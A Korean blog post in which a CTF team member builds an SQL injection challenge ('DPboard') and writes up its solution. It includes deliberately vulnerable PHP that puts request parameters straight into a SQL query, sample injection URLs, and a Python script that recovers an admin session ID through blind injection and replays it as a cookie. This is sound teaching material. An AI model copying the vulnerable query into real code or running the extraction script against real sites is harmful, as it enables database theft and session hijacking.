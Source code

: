 ```yaml
---
layout: post
title: DPboard making and writeup
excerpt_separator: <!--more-->
tags:
  - MitNy
  - SQL injection
  - writeup
  - WebHacking
---
```


안녕하세요 MadHat 팀에서 웹 해킹을 공부하고 있는 `MitNy` 입니다. 지금까지 CTF나 Wargame에서 문제를 풀어오면서
문제를 푸는 것도 중요하지만 문제를 만들어보는 것도 중요하다는 생각을 하고 있습니다.
처음에는 스테가노그래피가 재밌어서 이것저것 숨겨보기도 했지만 요즘은 웹 문제를 만드는 게 더 재밌어졌습니다.
그래서 이번에는 제가 SQL injection 문제를 만드는 것과 풀이를 동시에 하도록 하겠습니다.

<!--more-->


### 1. DPboard 소개

문제 이름은 `DPboard` 입니다. DPboard는 Display board를 제 마음대로 줄인 것이며 기본적인 컨셉은
전광판에 사용자가 원하는 문구를 띄울 수 있다는 것입니다.
어디에 플래그가 뜰지 예상이 가시나요?

DPboard 문제의 메인 페이지는 다음과 같습니다.

![]({{ site.baseurl }}/images/mitny/DPboard/dp1.PNG)

메시지를 추가하고, 전광판에 표시를 하는 기능이 있고 지금까지 등록된 메시지들이 테이블 형식으로 보입니다.

메시지를 추가하게 되면 다음과 같이 테이블에 메시지가 추가됩니다.
![]({{ site.baseurl }}/images/mitny/DPboard/dp2.PNG)

`hey` 라는 메시지를 전광판에 띄워 볼게요.
![]({{ site.baseurl }}/images/mitny/DPboard/dp3.PNG)

표시할 메시지를 입력하면 URL 부분이 `ip/DPboard/dpboard.php?title=hey&id=hs6j3a53oiphdfrlni8j3fti83&submit2=send` 로 바뀝니다.
중간에 id는 익숙하네요. 유저의 PHPSESSID와 동일합니다.
![]({{ site.baseurl }}/images/mitny/DPboard/dp4.PNG)


이 부분의 코드를 보면

```html
<div id="showMessage">
	<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="get">
		표시할 메시지: <input type="text" name="title">
		<input type="hidden" name="id" value="<?php echo $_COOKIE["PHPSESSID"]; ?>">
		<input type="submit" name="submit2" value="send">
		</form>
</div>
```

hidden 값으로 유저의 `PHPSESSID`가 들어갑니다. 이를 이용한 PHP 코드는 다음과 같습니다.

```php
<?php
	$id = $_GET["id"];
	$title = $_GET["title"];

	$query = "SELECT id,content FROM dpdb WHERE id='$id' AND title='$title'";
	$result = mysqli_query($conn,$query);

	while($row = mysqli_fetch_array($result)) {
		if($_COOKIE["PHPSESSID"] != "admin's PHPSESSID(is not real)") {
			if($row['content'] == "FLAG(is not real)") {
				echo "<marquee>Do Not Hack!</marquee>";
			}
			else {
				echo "<marquee>".$row['content']."</marquee>";
			}
		}
		else {
			echo "<marquee>".$row['content']."</marquee>";
		}
	}
?>
```

title과 hidden값인 id를 가져온 후 id와 title에 해당하는 값을 DB에서 가져오는 쿼리문이 있습니다.
미리 DB에 저장해 둔 admin의 PHPSESSID와 비교하여 일치할 때만 플래그를 보여주도록 했습니다.
그렇지 않으면 substr로 한 글자만 맞춰도 플래그가 뜨기 때문에 너무 쉽잖아요!

substr을 이용해 `ip/DPboard/dpboard.php?title=flag&id=1' or title='flag' and substr(id,1,1)='m` 또는
`ip/DPboard/dpboard.php?title=flag&id=1' or title='flag' and length(id)='26` 을 입력하게 되면
다음과 같이 `Do Not Hack!` 이라는 문구가 뜹니다.
![]({{ site.baseurl }}/images/mitny/DPboard/dp5.PNG)

PHPSESSID의 길이도 길이고 한 글자씩 맞춰보기엔 오래 걸리니 파이썬으로 코드를 짜서 플래그를 알아내보도록 하겠습니다.

```py
from requests import get
import string
from time import sleep


url = "ip/DPboard/dpboard.php"
adminSessid = ""

alpha = string.ascii_letters+string.digits
result = ""

print("\n\n.*.*.*.*.*.*.*.Finding admin id.*.*.*.*.*.*.*.\n")
length = 27
for i in range(1, length):
    for a in alpha:
        parameter = "?title=flag&id=1' or title='flag' and ASCII(substr(id,"+ str(i)+",1))="+str(ord(a))+"%23"
        new_url = url + parameter
        cookies = dict(PHPSESSID=adminSessid)
        r = get(new_url, cookies=cookies)

        if r.text.find("<marquee>Do Not Hack!</marquee>") > 0:
            print(str(i) + " -> " + a)
            sleep(0.5)
            result += a
            break

    if i == 1 and result == "":
        print("id not found")
        exit(0)

    if i == length-1:
        print("\n"+"id is " + result)
        adminSessid = result
        print("\n")
        cookies = dict(PHPSESSID=result)
        req = get(new_url,cookies=cookies)
        print(req.text)
```

PHPSESSID이기 때문에 딱히 특수문자까지 찾도록 하진 않았습니다.
`?title=flag&id=1' or title='flag' and ASCII(substr(id,"+ str(i)+",1))="+str(ord(a))+"%23` 와 같이
substr을 통해 한글자씩 맞추게 됩니다.
admin의 flag에 접근하려고 할 때 user의 PHPSESSID가 DB에 저장되어 있는 admin의 PHPSESSID와 같지 않으면
`Do Not Hack!` 메시지를 뱉기 때문에 이를 이용했습니다.
"Do Not Hack!" 이 뜰 때는 admin의 PHPSESSID 중 한 글자가 맞는다는 의미이므로 이 문구가 뜰 때
result에 해당 값을 붙여 줍니다.
그 후에 PHPSESSID를 result 값으로 주고 get을 이용해 new_url과 cookies 값을 넘겨줍니다.
req.text로 html 코드를 가져오면 플래그가 보입니다!


### 결과

![]({{ site.baseurl }}/images/mitny/DPboard/dp6.PNG)

![]({{ site.baseurl }}/images/mitny/DPboard/dp7.PNG)
